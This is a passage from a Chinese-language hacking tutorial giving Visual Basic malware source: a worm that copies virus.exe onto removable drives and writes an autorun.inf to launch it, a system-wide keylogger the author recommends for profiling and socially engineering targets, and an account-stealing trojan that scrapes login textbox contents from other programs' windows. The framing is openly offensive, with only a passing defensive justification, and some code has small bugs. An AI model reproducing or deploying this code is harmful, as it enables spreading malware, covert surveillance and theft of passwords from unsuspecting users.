Autorun.inf：AutoRun是微软窗口系统的组件，其属性标示着系统在搜索到设备时可采取的行动。AutoRun在Windows 95时首度露面，目的是帮助非专业用户安装程序以及降低用户需要软件支持服务的频率，最初用在其安装盘里，实现自动安装。电脑读取正确装载的CD-ROM时，系统会自动侦测其某个夹带指令的文件，如果是商业软件，这些指令通常会启动软件的安装动作。为了确保安装成功，AutoRun也能通过双击Windows资源管理器（或“我的电脑”）内的设备图标运行。

在这里我们主要会用到Autorun.inf的Open命令，命令用法为“open=程序路径\程序名（或者命令行）”。自动运行的命令行必须是.exe、.com、.bat文件，其他格式文件可以使用start.exe打开或使用ShellExecute命令。

##### 程序实例

```vb
Private Sub Timer1_Timer()
  Dim drv, i As Integer
  Set drv = CreateObject("Scripting.FileSystemObject") '创建FSO对象
  For i = 68 To 90 '字符C、D、E、F的ASCII码
    If drv.DriveExists(Chr(i)) Then '先判断驱动是否存在
      If (drv.GetDrive(Chr(i)).DriveType = 1) Then '再判断驱动类型
        Call Fcopy(Chr(i)) '复制
        Call Wauto '写Autorun.inf文件
      End If
    End If
  Next
End Sub

Function FCopy(DrvName As String)
  If Len(Dir(DrvName & "\\virus.exe")) = 0 Then
    FileCopy Replace(App.Path & "\\virus.exe", "\\", "\\"), DrvName & "\\virus.exe"
  End
End Function

Private Sub Wauto()
  Open DrvName & "\\autorun.inf" For Output As #1
  Print #1, "[AutoRun]"
  Print #1, "Open=" & "virus.exe"
  Close #1
End Sub
```

##### 程序分析

这个程序事实上没有一点难度，就轻轻松松地实现了我们的目的。因为这个过程是动态的，就不截图了，大家可以自己测试一下。

程序的思路为：判断是否有移动设备插入——如果存在则写入autorun.inf文件。

代码中，我们创建了一个FSO对象，判断驱动类型，这是最关键的部分了，所以真的没什么难度。至于DriveType的值，我列出来让大家看看，以便在其他地方的时候可能用到。

| 常数值 | 描述 |
|---|---|
| Unknown 0 | 无法确定驱动器类型。 |
| Removable 1 | 可移动媒体驱动器，包括软盘驱动器和其他多种存储设备。 |
| Fixed 2 | 固定（不可移动）媒体驱动器，包括所有硬盘驱动器（包括可移动的硬盘驱动器）。 |
| Remote 3 | 网络驱动器，包括网络上任何位置的共享驱动器。 |
| CDROM 4 | CD-ROM驱动器，不区分只读和可读写的CD-ROM驱动器。 |
| RAMDisk 5 | RAM磁盘，在本地计算机中占用一块“随机存取内存”(RAM)虚拟为磁盘驱动器。 |

#### 7.3 键盘记录器

键盘记录器是我们在远控中常见到的一个功能。那么，键盘记录的意义在于什么？盗号的话有时候是可以的，但是比较麻烦而已，有时候却不行。比如单纯用一个简单的键盘记录器就想盗取别人的QQ号码，做梦去吧（其实我见过有个用键盘记录实现记录QQ密码的盗号木马，不过是收费的）。键盘记录器实际上是一个强有力的社工工具，可以了解到目标的动态信息。比如我们可以看到有时记录器中返回的字符串是一个网址，我们就知道目标喜欢去什么网站。记录器返回了很多次相同的信息，说明这个信息很有可能是目标所关注的东西，或者和目标关系非常大，例如相同的密码。又或者我们可以从记录器返回的信息中知道目标的生日、手机号码等有用的信息，就可以对目标进行进一步的社工。所以说，键盘记录器这个东西是不应该被我们小看或忽视的。

现在我来给大家说说用VB实现键盘记录的原理：在这里，我们用到一个API函数，GetAsyncKeyState函数，该函数用来判断指定虚拟键的状态。然后我们在窗体上画一个Textbox控件和一个Timer控件，Timer控件的Interval属性值设为1。关于GetAsyncKeyState函数，我们可以看看API使用手册，信息如下：

### VB声明

```vb
Declare Function GetAsyncKeyState Lib "user32" Alias "GetAsyncKeyState" (ByVal vKey As Long) As Integer
```

##### 说明

判断函数调用时指定虚拟键的状态。

##### 返回值

Long。自对GetAsyncKeyState函数的上一次调用以来，如键已被按过，则位0设为1；否则设为0。如键目前处于按下状态，则位15设为1；如抬起，则为0。微软的Win32手册指出：倘若输入焦点从属于与调用函数的输入线程不同的另一个输入线程，则返回值为0（例如，一旦另一个程序拥有焦点，则它应返回零）。证据显示，函数实际上是在整个系统的范围内工作的。

##### 参数表

| 参数 | 类型及说明 |
|---|---|
| vKey | Long，欲测试的虚拟键的键码 |

##### 注解

如指定了VK_LBUTTON或VK_RBUTTON，按钮的状态就会根据实际的按钮报告——无论是否曾用SwapMouseButton函数对鼠标的位置进行了交换。Win32提供了额外的一些虚拟键码，比如VK_LSHIFT和VK_RSHIFT，以便在两个完全一样的键中区分出左右（也包括Ctrl和Alt）。

##### 程序实例

```vb
Private Declare Function GetAsyncKeyState Lib "user32" (ByVal vKey As Long) As Integer
Private temp_text As String

Private Sub Form_Load()
    Text1.Text = ""
End Sub

Private Sub Timer1_Timer()

Dim AddKey

keyresult = GetAsyncKeyState(13)
If keyresult = -32767 Then
  AddKey = "[ENTER]"
  GoTo KeyFound
End If

keyresult = GetAsyncKeyState(17)
If keyresult = -32767 Then
  AddKey = "[CTRL]"
  GoTo KeyFound
End If

keyresult = GetAsyncKeyState(8)
If keyresult = -32767 Then
  AddKey = "[BKSPACE]"
  GoTo KeyFound
End If

keyresult = GetAsyncKeyState(9)
If keyresult = -32767 Then
  AddKey = "[TAB]"
  GoTo KeyFound
End If

keyresult = GetAsyncKeyState(18)
If keyresult = -32767 Then
    AddKey = "[ALT]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(19)
If keyresult = -32767 Then
    AddKey = "[PAUSE]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(20)
If keyresult = -32767 Then
    AddKey = "[CAPS]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(27)
If keyresult = -32767 Then
    AddKey = "[ESC]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(33)
If keyresult = -32767 Then
    AddKey = "[PGUP]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(34)
If keyresult = -32767 Then
    AddKey = "[PGDN]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(35)
If keyresult = -32767 Then
    AddKey = "[END]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(36)
If keyresult = -32767 Then
    AddKey = "[HOME]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(44)
If keyresult = -32767 Then
    AddKey = "[SYSRQ]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(45)
If keyresult = -32767 Then
    AddKey = "[INS]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(46)
If keyresult = -32767 Then
    AddKey = "[DEL]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(144)
If keyresult = -32767 Then
    AddKey = "[NUM]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(37)
If keyresult = -32767 Then
    AddKey = "[LEFT]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(38)
If keyresult = -32767 Then
    AddKey = "[UP]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(39)
If keyresult = -32767 Then
    AddKey = "[RIGHT]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(40)
If keyresult = -32767 Then
    AddKey = "[DOWN]"
    GoTo KeyFound
End If

'-------------------------------
' 功能键
keyresult = GetAsyncKeyState(112)
If keyresult = -32767 Then
    AddKey = "[F1]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(113)
If keyresult = -32767 Then
    AddKey = "[F2]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(114)
If keyresult = -32767 Then
    AddKey = "[F3]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(115)
If keyresult = -32767 Then
    AddKey = "[F4]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(116)
If keyresult = -32767 Then
    AddKey = "[F5]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(117)
If keyresult = -32767 Then
    AddKey = "[F6]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(118)
If keyresult = -32767 Then
    AddKey = "[F7]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(119)
If keyresult = -32767 Then
    AddKey = "[F8]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(120)
If keyresult = -32767 Then
    AddKey = "[F9]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(121)
If keyresult = -32767 Then
    AddKey = "[F10]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(122)
If keyresult = -32767 Then
    AddKey = "[F11]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(123)
If keyresult = -32767 Then
    AddKey = "[F12]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(124)
If keyresult = -32767 Then
    AddKey = "[F13]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(125)
If keyresult = -32767 Then
    AddKey = "[F14]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(126)
If keyresult = -32767 Then
    AddKey = "[F15]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(127)
If keyresult = -32767 Then
    AddKey = "[F16]"
    GoTo KeyFound
End If

'----------------------------------------------
keyresult = GetAsyncKeyState(32)
If keyresult = -32767 Then
    AddKey = " "
    GoTo KeyFound
End If
```

```vb
keyresult = GetAsyncKeyState(186)
If keyresult = -32767 Then
    AddKey = ";"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(187)
If keyresult = -32767 Then
    AddKey = "="
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(188)
If keyresult = -32767 Then
    AddKey = ","
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(189)
If keyresult = -32767 Then
    AddKey = "-"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(190)
If keyresult = -32767 Then
    AddKey = "."
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(191)
If keyresult = -32767 Then
    AddKey = "/"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(192)
If keyresult = -32767 Then
    AddKey = "`"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(96)
If keyresult = -32767 Then
    AddKey = "0"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(97)
If keyresult = -32767 Then
    AddKey = "1"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(98)
If keyresult = -32767 Then
    AddKey = "2"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(99)
If keyresult = -32767 Then
    AddKey = "3"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(100)
If keyresult = -32767 Then
    AddKey = "4"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(101)
If keyresult = -32767 Then
    AddKey = "5"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(102)
If keyresult = -32767 Then
    AddKey = "6"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(103)
If keyresult = -32767 Then
    AddKey = "7"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(104)
If keyresult = -32767 Then
    AddKey = "8"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(105)
If keyresult = -32767 Then
    AddKey = "9"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(106)
If keyresult = -32767 Then
    AddKey = "*"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(107)
If keyresult = -32767 Then
    AddKey = "+"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(108)
If keyresult = -32767 Then
    AddKey = "[ENTER]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(109)
If keyresult = -32767 Then
    AddKey = "-"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(110)
If keyresult = -32767 Then
    AddKey = "."
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(111)
If keyresult = -32767 Then
    AddKey = "/"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(220)
If keyresult = -32767 Then
    AddKey = "\"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(222)
If keyresult = -32767 Then
    AddKey = "'"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(221)
If keyresult = -32767 Then
    AddKey = "]"
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(219)
If keyresult = -32767 Then
    AddKey = "["
    GoTo KeyFound
End If

keyresult = GetAsyncKeyState(16)
If keyresult = -32767 And TimeOut = 0 Then
    AddKey = "[SHIFT]"
    LastKey = AddKey
    TimeOut = 1
    GoTo KeyFound
End If

'----------------------------------------------
KeyLoop = 41

Do Until KeyLoop = 256    '显示其他键
    keyresult = GetAsyncKeyState(KeyLoop)
    If keyresult = -32767 Then Text1.Text = Text1.Text + Chr(KeyLoop)
    KeyLoop = KeyLoop + 1
Loop

LastKey = AddKey
Exit Sub

KeyFound:
Text1.Text = Text1.Text & AddKey
End Sub
```

##### 程序分析

看到这里大家可能有点蒙，就是我们为什么要写那么多个IF呢。像代码的最后面一样，直接用loop循环不就行了么？虽然看起来只用loop循环就够了，但是我们在记录的过程中，如果目标按下了[SHIFT]这个键的话，Textbox是无法显示出来的，所以我们要把它“形象化”。至于那些其它数字和符号，则是为了以防万一。因为在我测试的过程中，Keyloop过程并不能完全接受到每个键的状态。数字那一部分删掉也行，在我的笔记本上可以正确记录，但是我害怕程序在台式机上运行的时候会记录不到，所以我也保留。好，再来看看-32767是什么意思。32767是二进制的111111111111111（15个1），前面API的使用说明说道，如果键目前处于按下状态，则位15设为1，就是这个意思。把它看做16位二进制，因为第一位（从左开始数）没有设置，所以位0，也就是符号位为0，是个负数。所以我们判断的时候就判断返回的值是不是-32767。这样的话程序就很明了了，还算简单吧。等大家有空的时候可以继续完善这个程序，至于怎么完善，就发挥大家的想象吧。测试图如图1。

图1

#### 7.4 传统盗号木马设计

话说，这盗号木马现在和我是几乎不沾边啊。如果说道碰过盗号木马这种东西那只在初三的时候了。那个时候用的是爱Q大盗，感觉还是挺强大的。爱Q大盗的原理也是伪造界面，而并非传统的盗号木马。因为如果你现在中了旧版的爱Q大盗的话，当你打开QQ的时候会出现两个登录界面，一个是08的QQ（没记错的话应该是），另一个是你现在使用的QQ。而在此之前，传统的盗号木马并非需要伪造界面来实现盗号的效果，因为如果你不懂美工的话，除非你有qv22321（以前黑X某作者）的那种胆识头脑，否则伪造一个界面是比较困难的。所以呢，传统盗号木马使用的方式是直接获取账号密码，这就是我们本节要讲的内容。有人问，为什么现在黑客不再使用传统的方式盗号。其实黑客业与安全业是相辅相成、共同进步的。传统的盗号手段使用得多了，引起了各大安全公司及软件开发者的注意，于是他们便探索技术，修改杀毒功能，升级自己的登录器，这样传统的盗号手段就失去了作用。但是我们还是需要了解传统盗号木马的原理，只有了解之后，日后自己在设计软件的时候才能有效地防范它。

传统的盗号木马采用的是消息监控的方式。Windows操作系统使用的是消息机制。消息，就是指Windows发出的一个通知，告诉应用程序某个事情发生了。例如，单击鼠标、改变窗口尺寸、按下键盘上的一个键都会使Windows发送一个消息给应用程序。通过对消息的监控，盗号木马可以了解用户的行为。传统盗号木马也可以看做是将星号密码查看器实现自动化的程序。

##### 程序实例

首先我们新建一个工程，添加一个窗体Form1.frm，一个模块Module1.bas，在Form1中添加按钮Command1。

在Form1.frm中写入如下代码：

```vb
Private Sub Command1_Click()
    EnumWindows AddressOf EnumProc, 0
End Sub
```

然后在Module1.bas中写入模块代码：

```vb
'类名为调试阶段的类名
Option Explicit
Declare Function EnumWindows Lib "user32" (ByVal lpEnumFunc As Any, ByVal lParam As Long) As Long '遍查窗口
Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long '取得窗口标题
Declare Function GetClassName Lib "user32" Alias "GetClassNameA" (ByVal hwnd As Long, ByVal lpClassName As String, ByVal nMaxCount As Long) As Long '为指定的窗口取得类名
Declare Function GetWindow Lib "user32" (ByVal hwnd As Long, ByVal wCmd As Long) As Long '获得一个窗口的句柄
Declare Function SendMessage Lib "user32" Alias "SendMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any) As Long '发送消息

Const GW_CHILD = 5 '寻找源窗口的第一个子窗口
Const GW_HWNDNEXT = 2 '为源窗口寻找下一个兄弟窗口
Const WM_GETTEXT = &HD
Const WM_GETTEXTLENGTH = &HE
Dim buf As String
Dim nameall As String, name As String
Dim i As Integer
Dim title As String

Public Function EnumProc(ByVal app_hwnd As Long, ByVal lParam As Long) As Boolean '遍查主窗口
    Dim buf As String * 1024
    Dim length As Long
    length = GetWindowText(app_hwnd, buf, Len(buf))
    title = Left$(buf, length) '取得窗口的标题
    If InStr(title, "test") Then '判断窗口名是否为test
        Call GetZiWin(app_hwnd) '获取密码框的类名
    End If
    EnumProc = 0
End Function

Public Function GetZiWin(window_hwnd As Long) As String
    Dim buflen As Long
    Dim child_hwnd As Long
    Dim children() As Long
    Dim num_children As Integer
    Dim i As Integer

    buflen = 256
    buf = Space$(buflen - 1)
    buflen = GetClassName(window_hwnd, buf, buflen)
    buf = Left$(buf, buflen)
    If Right(buf, 14) = "ThunderTextBox" Then '进行判断子类，可用spy++获取，这里为VB中的TEXTBOX类名
        GetZiWin = GetWinText(window_hwnd) '取得它们的值
        Exit Function
    End If

    num_children = 0
    child_hwnd = GetWindow(window_hwnd, GW_CHILD) '取得第1个子窗口的句柄
    Do While child_hwnd <> 0 '如果有子窗口
        num_children = num_children + 1
        ReDim Preserve children(1 To num_children)
        children(num_children) = child_hwnd
        child_hwnd = GetWindow(child_hwnd, GW_HWNDNEXT) '取得下一个兄弟窗口的句柄
    Loop

    For i = 1 To num_children
        Call GetZiWin(children(i))
    Next i
End Function

Public Function GetWinText(window_hwnd As Long) As String '取得子窗口的值
    Dim txtlen As Long
    Dim txt As String '通过 SendMessage 发送 WM_GETTEXT 取得地址栏的值
    GetWinText = ""
    If window_hwnd = 0 Then
        Exit Function
    Else
        txtlen = SendMessage(window_hwnd, WM_GETTEXTLENGTH, 0, 0)
        If txtlen = 0 Then
            Exit Function
        Else
            txtlen = txtlen + 1
            txt = Space$(txtlen)
            txtlen = SendMessage(window_hwnd, WM_GETTEXT, txtlen, ByVal txt)
            GetWinText = Left$(txt, txtlen)
            If buf = "ThunderTextBox" Then
                name = GetWinText
                If InStr(nameall, name) Then
                    i = 0
                Else
                    If nameall = "" Then
                        nameall = name
                    Else
                        nameall = name + "&" + nameall
                        i = i + 1
                    End If
                End If
            End If
        End If
    End If

    i = i + 1
    Form1.Text1.Text = nameall
End Function
```

##### 程序分析

首先代码的开头是API函数的声明和常量、变量声明。EnumProc函数用来遍历主窗口，即你所打开的程序，它会一个个地找，直到找到名为test的窗口的时候再调用GetZiWin执行下一步计划。GetZiWin函数用来获取窗口的类名，每种不同的控件都会有自己的类名，以便区分这个控件可以对Windows发送什么消息、返回什么消息。“ThunderTextBox”是VB中Textbox控件的类名，并且是调试的时候类名如此。在你将工程设计好后，生成EXE文件，生成的EXE文件打开后Textbox控件的类名为ThunderRT6TextBox。当我们判断到控件的类名为“ThunderTextBox”，也就知道了这是VB的Textbox文本框控件，下一步就是获取文本框的内容，就是用GetWinText函数啦。

GetWinText函数依靠SendMessage这个API来实现，WM_GETTEXT是一个常数，代表获取文本框内容的消息。因为程序不会像我们一样，可以区分输入账号和密码的文本框，只要是文本框（具有相同类名），程序都会将它们一视同仁。所以我们在设计的时候就需要将每个文本框都遍历一次，将内容整合起来，这也是在GetZiWin函数中为什么需要搜索兄弟窗口的原因。如果你碰到些比较缺德的设计者，在窗体上画了N个文本框控件的话，那你也不能奈他如何。我相信没人会那么做的。

对了，在模块代码的头一行，我加了一行注释，“类名为调试阶段的类名”，大家可能有点不理解这句话的意思。在我写完代码的时候，需要一个模拟登录程序来测试我的程序，于是就再打开VB写了另一个程序，简单地加了两个文本框进去测试。因为这种一次性程序（指的是模拟登录器）我是不习惯保存的，它们非常简单，所以一般我直接在VB中写完代码然后按F5运行。这个时候我们使用程序测试的时候获取的类名就是“ThunderTextBox”，将模拟登录程序生成EXE文件后是“ThunderRT6TextBox”，上面有提到。

在实际的盗号木马设计中，我们需要获取登录器文本框的类名，可以使用SPY++之类的软件，将十字光标（长得像狙击枪的瞄准镜）移动到文本框上就可以了。